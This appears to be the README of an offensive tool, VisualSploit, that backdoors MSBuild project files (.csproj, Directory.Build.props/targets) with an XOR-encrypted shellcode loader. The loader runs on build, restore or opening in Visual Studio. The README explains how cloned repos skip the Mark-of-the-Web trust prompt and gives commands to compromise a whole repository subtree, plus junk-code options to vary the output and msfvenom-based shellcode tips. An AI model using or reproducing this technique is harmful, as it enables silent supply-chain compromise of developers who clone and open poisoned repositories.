

# VisualSploit

Weaponizes MSBuild project files to run embedded shellcode. Given a `.csproj`, `.vbproj`, or `Directory.Build.props/targets` and a shellcode blob, VisualSploit injects a loader that fires whenever the project is built, restored, or opened in Visual Studio. Cloning a backdoored repo and opening it in Visual Studio is enough to run the payload without user interaction.



## How it works

MSBuild lets a project declare an inline task, a chunk of C# that `RoslynCodeTaskFactory` compiles and runs during the build:

```xml
<UsingTask TaskName="Foo" TaskFactory="RoslynCodeTaskFactory" AssemblyFile="$(MSBuildToolsPath)\Microsoft.Build.Tasks.Core.dll">
  <Task>
    <Code Type="Method" Language="cs">
      <![CDATA[
        public override bool Execute() { /* arbitrary C# */ return true; }
      ]]>
    </Code>
  </Task>
</UsingTask>
```

`InitialTargets` on `<Project>` names targets that fire first when MSBuild evaluates the project.

VisualSploit writes a `<UsingTask>` containing a shellcode loader, adds a `<Target>` that invokes it, and appends that target to `InitialTargets`. Any evaluation runs the target, whether `dotnet build`, `dotnet restore`, Visual Studio opening the folder, or an IDE running MSBuild for IntelliSense. Microsoft treats those design-time builds as full execution.

The emitted C# then:

1. Decrypts the embedded payload with XOR.
2. Allocates an RWX page with `VirtualAlloc`.
3. Spawns a thread at that page with `CreateThread` and waits for it.

Cloned files carry no [MOTW](https://learn.microsoft.com/en-us/windows/win32/secauthz/mark-of-the-web), so Visual Studio's "trust this project?" prompt never fires on `git clone`.

## Targets

| Target file                 | Fires when                                               |
|-----------------------------|----------------------------------------------------------|
| `*.csproj` / `*.vbproj`     | The project is opened or built                           |
| `Directory.Build.props`     | Any project in the directory or below is opened or built |
| `Directory.Build.targets`   | Any project in the directory or below is built           |

`Directory.Build.props` and `.targets` are imported implicitly for every project beneath them, so a single injected file at a repo root compromises the whole subtree.

## Usage

```
visualsploit <target> <shellcode> [options]

-o, --output <path>   Write to a different path (default: in place)
-r, --rounds <n>      XOR rounds 1-5 (default 3)
-s, --seed <n>        RNG seed for reproducible output
    --junk            Interleave junk code to vary emitted bytes
    --no-backup       Skip .bak when writing over an existing file
```

Shellcode can be raw binary or hex (whitespace, commas, and `0x` prefixes are ignored). The target is modified in place unless `--output` is passed, leaving a `.bak` of the original alongside.

```bash
# Inject into a single project
visualsploit project.csproj shellcode.bin

# Compromise all projects in the subtree
visualsploit repo/Directory.Build.props shellcode.bin

# Reproducible output with junk code interleaved
visualsploit repo/Directory.Build.targets shellcode.bin --junk -s 42
```

## Shellcode constraints

- Bitness must match the MSBuild host (x64 for x64, x86 for x86).
- Must be position-independent. The loader spawns a thread at an address the system picks; on x64, `RCX` is zero on entry.
- The page is mapped `PAGE_EXECUTE_READWRITE`, so self-modifying stagers like reflective loaders or metasploit `migrate` run without extra protection flips.
- Shellcode must terminate on its own (e.g. msfvenom's `EXITFUNC=thread`). The loader waits on the thread indefinitely and will hang the build otherwise.

## Build

Requires .NET 10 SDK.

```bash
dotnet build -c Release
dotnet test
```

Self-contained binary:

```bash
dotnet publish -c Release -r <rid> --self-contained -p:PublishSingleFile=true
```

## License

MIT.
